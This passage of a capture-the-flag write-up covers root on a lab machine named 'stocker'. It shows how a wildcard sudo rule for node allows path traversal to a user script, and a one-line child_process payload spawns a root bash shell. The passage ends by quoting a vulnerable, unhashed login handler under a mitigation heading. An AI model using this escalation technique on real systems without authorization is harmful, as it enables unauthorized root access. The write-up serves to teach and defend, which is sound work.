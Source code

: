 It worked, and I got the user flag.

## Getting root

Once on the machine, getting root was very easy. I checked if I could run anything with sudo.

```bash
angoose@stocker:~$ sudo -l
[sudo] password for angoose:
Matching Defaults entries for angoose on stocker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User angoose may run the following commands on stocker:
    (ALL) /usr/bin/node /usr/local/scripts/*.js
```

I was able to run node as root. The configuration was trying to restrict it to the js files in '/usr/local/scripts'. However, the wildcard (*) used in the path allowed me to use `../` and run scripts from anywhere on the server.

```bash
angoose@stocker:~$ cat exploit.js
console.log('PWNED');

angoose@stocker:~$ sudo node /usr/local/scripts/../../../home/angoose/exploit.js
PWNED
```

Knowing that, I used a [simple node script](https://gtfobins.github.io/gtfobins/node/#shell) to execute bash as root.

```bash
angoose@stocker:~$ cat exploit.js
require("child_process").spawn("/bin/bash", {stdio: [0, 1, 2]})

angoose@stocker:~$ sudo node /usr/local/scripts/../../../home/angoose/exploit.js

root@stocker:/home/angoose# whoami
root

root@stocker:/home/angoose# cat /root/root.txt
REDACTED
```

## Mitigation

The first problem with the application is the code to the login function.

```js
app.post("/login", async (req, res) => {
  const { username, password } = req.body;

  if (!username || !password) return res.redirect("/login?error=login-error");

  // TODO: Implement hashing

  const user = await mongoose.model("User").findOne({ username, password });

  if (!user) return res.redirect("/login?error=login-error");

  req.session.user = user.id;

  console.log(req.session);

  return res.redirect("/stock");
});
```